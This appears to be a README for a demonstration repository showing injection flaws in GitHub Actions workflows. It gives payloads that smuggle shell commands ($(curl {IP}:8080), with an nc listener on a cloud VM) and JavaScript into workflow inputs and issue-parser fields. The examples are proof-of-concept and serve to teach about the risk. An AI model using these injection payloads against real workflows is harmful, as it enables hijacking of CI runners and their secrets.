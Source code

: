 # actions-input-security
The repository demonstrates two potential vulnerabilities when using inputs in actions workflows.  

# Exploit 1: Using user input (via issue parser) in run commands
Launch a VM in the cloud. Open a publicly accessible port on the VM using `nc -vlnk 0.0.0.0 8080`. 
```
    ```json
    {
        "version": "$(curl {IP}:8080)"
    }
    ```
```
# Exploit 1a: Using user input in run commands
Launch a VM in the cloud. Open a publicly accessible port on the VM using `nc -vlnk 0.0.0.0 8080`.  
Use the following as input for workflow_dispatch: `$(curl {IP}:8080)`  

# Exploit 2: Using user input (via issue parser) in github-script action
```
    ```json
    {
        "version": "'};console.log('hophophop!!!');//"
    }
    ```
```

# Exploit 2a: Using user input in github-script action
Use the following as input for workflow_dispatch: `};console.log('hophophop!!!');//`  
